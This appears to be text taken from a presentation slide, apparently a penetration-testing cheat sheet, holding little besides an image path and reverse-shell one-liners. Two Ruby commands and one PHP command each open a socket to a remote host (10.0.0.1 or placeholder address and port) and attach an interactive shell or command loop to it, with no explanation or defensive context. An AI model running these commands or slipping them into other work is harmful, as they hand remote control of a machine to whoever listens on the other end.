

Ruby:
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)’

ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end’

PHP:
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'